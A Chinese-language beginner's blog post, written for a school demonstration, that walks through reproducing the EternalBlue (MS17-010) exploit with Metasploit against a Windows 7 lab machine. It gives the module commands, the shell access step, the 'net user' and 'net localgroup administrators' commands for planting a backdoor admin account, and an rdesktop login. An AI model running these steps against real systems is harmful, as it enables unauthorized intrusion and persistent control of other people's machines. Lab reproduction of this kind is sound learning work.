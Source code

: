```yaml
---
layout: post
title: 'Metasploit简单使用'
subtitle: '利用永恒之蓝漏洞'
date: 2021-05-30
categories: kali
cover: 'https://pic3.zhimg.com/80/v2-d1b214472ac8f450e4d388952faf751e_720w.jpg?source=1940ef5c'
tags: 脚本的使用
---
```

## 说明
参加学校ICT活动需要一个技术展示，突然就想到之前最火的永恒之蓝漏洞，于是就有了这篇复现文章
本人还是个刚刚入门的小白，如果写的不好请轻喷
攻击机是kali 目标机是Windows 7
远程连接之前需要将Windows 7的允许远程链接打开

## 操作步骤
1. 启动Metasploit
![image](https://z3.ax1x.com/2021/05/30/2VyDN8.png)
2. 查找ms17_010
``` search ms17_010```
![iamge](https://z3.ax1x.com/2021/05/30/2Vyz4O.png)
ms17_010是永恒之蓝漏洞，适用于Windows 7和Windows Server 2012
3.使用 exploit/windows/smb/ms17_010_eternalbule
![image](https://z3.ax1x.com/2021/05/30/2V6lKs.png)
4. 设置一下
输入options
![image](https://z3.ax1x.com/2021/05/30/2V6TdP.png)
然后开始设置各种参数：
``rhosts 是目标IP地址 rprot是目标端口``
永恒之蓝漏洞是利用445端口进行渗透
5. SET
设置目标IP	设置目标端口	设置payload	设置target
![image](https://z3.ax1x.com/2021/05/30/2VcFWF.png)	
6. 开始运行 run或者exploit
然后就获取到目标电脑的权限
7. 提权方法
输入shell
![image](https://z3.ax1x.com/2021/05/30/2Vcb01.png)
7. 创建用户
`net user 123 123+qwe /add 创建一个账户123 密码123+qwe的用户 
net localgroup administrators 123 /add 将123提升为管理员`
8. 远程连接
``` rdesktop +IP```
![image](https://z3.ax1x.com/2021/05/30/2VgBAx.png)


![image](https://z3.ax1x.com/2021/05/30/2Vgcge.png)
然后登陆就可以
